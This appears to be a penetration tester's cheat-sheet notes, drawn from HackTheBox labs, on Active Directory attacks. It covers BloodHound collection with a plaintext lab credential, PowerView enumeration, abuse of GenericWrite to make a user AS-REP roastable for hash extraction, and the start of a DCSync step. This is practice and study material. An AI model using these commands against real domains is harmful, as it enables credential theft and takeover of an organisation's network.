 ### Basic commands

	bloodhound-python -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
	neo4j start console
	bloodhound --no-sandbox

**Don't forget to look for the "first degree object control" and "transitive object control".**

### Manual method with csv files
https://0xdf.gitlab.io/2018/11/10/htb-reel.html

- Import the csv file into libreoffice
- Select all the columns and click the filters icons
- Then go to the view menu anc click on freeze first row
- Then we can analyse the data by filtering columns etc... We should look for dacls and write perms...

## RECON WITH POWERVIEW
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

- Upload powerview on the target machine

		. .\PowerView.ps1

		Get-NetUser | select cn
		Get-NetGroup -GroupName *admin*
		Get-NetShare
		Get-NetComputer -fulldata | select operatingsystem

## EXPLOIT AD vulns
### Abuse GenericWrite
https://chr0x6eos.github.io/2020/09/19/htb-Multimaster.html

![image.png](../_resources/5f00322d1e0efd2212fb22dbfb490daf.png)

	Evil-WinRM PS C:\Users\sbauer\Documents> Get-ADUser Jorden | Set-ADAccountControl -doesnotrequirepreauth $true
	GetNPUsers.py MEGACORP/jorden -format hashcat -no-pass -dc-ip 10.10.10.179

### DCSync exploitation (dev branch of PowerSploit)

- Create a user and put it in the right group to perform the attack (see bloodhound)
